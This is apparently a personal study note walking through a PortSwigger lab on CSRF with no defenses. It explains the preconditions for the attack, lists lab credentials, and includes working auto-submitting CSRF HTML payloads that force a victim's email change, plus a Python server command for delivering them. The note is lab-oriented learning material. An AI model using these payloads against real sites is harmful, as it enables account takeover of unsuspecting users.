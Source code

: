[CSRF](https://www.hackingarticles.in/understanding-the-csrf-vulnerability-a-beginners-guide/)https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery

## **1. CSRF vulnerability with no defenses**
This lab's email change functionality is vulnerable to CSRF.
1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. If you're using [Burp Suite Professional](https://portswigger.net/burp/pro), right-click on the request and select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".
    Alternatively, if you're using [Burp Suite Community Edition](https://portswigger.net/burp/communitydownload), use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL".
    `<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> <script> document.forms[0].submit(); </script>`
    
3. Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".
4. To verify that the exploit works, try it on yourself by clicking "View exploit" and then check the resulting HTTP request and response.
5. Change the email address in your exploit so that it doesn't match your own.
6. Click "Deliver to victim" to solve the lab.

Vulnerable parameter - email change functionality
Goal - exploit the CSRF vulnerability and change the email address
creds - wiener:peter

In order for a CSRF attack to be possible:
- A relevant action - email change functionality
- Cookie based session handling - session cookie
- No unpredictable request parameters - **satisfied** (****no csrf token is present)**

![[Pasted image 20240920205439.png]]

- HTML payload (form action= "https://HOST/POST")
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-acb91feb1e053ea78076271500a20022.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

- Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```
